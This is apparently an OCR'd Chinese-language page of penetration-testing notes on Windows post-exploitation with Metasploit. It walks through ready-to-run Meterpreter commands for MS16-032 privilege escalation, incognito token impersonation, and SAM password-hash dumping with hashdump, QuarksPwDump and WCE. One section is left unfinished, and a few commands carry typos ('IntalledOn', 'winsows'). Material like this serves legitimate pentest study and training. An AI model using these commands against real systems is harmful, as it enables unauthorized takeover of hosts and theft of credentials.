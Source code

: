 **1.利用WMIC实战MS16-032本地溢出漏洞**
```bash
# WMIC是win一个命令行工具(交互模式/非交互模式)，不仅可管理本机还可管理域内所有远程主机(前提是有权限)，而被管理者不需要安装WMIC
# WMIC在信息搜集和后渗透十分有用，可以调查目标机的进程，服务，用户，用户组，网络连接，硬盘信息，时区，操作系统信息等


# 假设拿到了Meterpreter shell
getuid
getsystem    # 尝试提权，但是失败
# 接着查看系统打了的补丁(传统方法：在目标cmd输入systeminfo，或查询C:\windows\补丁号.log)
# 这里利用WMIC命令列出安装的补丁
WMIC qfe get Caption,Description,HotFixID,IntalledOn
# 找到打的补丁后，去找exp(然后将系统安装的补丁编号与提权exp编号比对，然后使用没有编号的exp进行提权)
## 漏洞信息网站： 安全焦点， Expolit-DB
# 接下来准备提权(把Meterpreter放到后台：background), 然后搜索ms16-032
search ms16-032    # 如果找不到，可以试试升级：msfupdate  或者手动添加相应漏洞EXP
use exploit/windows/local/ms16_032_secondary_logon_handle_privsec
set session 1
run
# 会返回一个新的session，进入，执行getuid 反省是system权限了
```

**2.令牌窃取**
令牌(Token)就是系统的`临时密钥`, 相当与账户密码，特点是随机性和不可预测  
在假冒令牌攻击中需要使用`Kerberos`协议(一种网络认证协议，其设计目的是通过密钥系统为客户机/服务器应用程序提供强大的认证服务)
Kerberos工作机制：
xxx待补充

假冒令牌实战利用
```bash
# 假设已经拿到了Meterpreter shell
getuid
getsystem # 提权失败

use incognito
list token -u # 列出可用的token(会看到结果，根据Meterpreter shell的权限而定)
# 假设从输出信息中看到了目标机器的..., 继续在incognito中执行
impersonate_token WIN7-TEST\\Administrator # 调用incognito中的这个impersonate_token 命令，来假冒Admin进行攻击(注意是两个反斜杠)
shell
whoami  # 查看权限

```

Hash攻击
```bash
###### 1.是使用Hashdump抓取密码
hashdump   # 导出主机的sam数据库的hash

# 另一个更强大的模块
run winsows/gather/smart_hashdump  # 若是win7,且开启了uac，就要使用绕过uac的模块再继续



##### 2.使用Quarks PwDump抓取密码
win32下的一款工具，导出信息十分全面，支持系统版本十分广泛
具体参数再查
QuarksPwDump.exe -dh1 -o 1.txt
# 还可配合在 Ntdsutil 工具到处DC的密码

ps: win的密码会加密存放在/windows/system32/config/sam



##### 3.使用Windows Credentials Editor抓取密码
WCE(Windows Credentials Editor)  功能强大，不过必须是管理员权限，还要主要免杀
```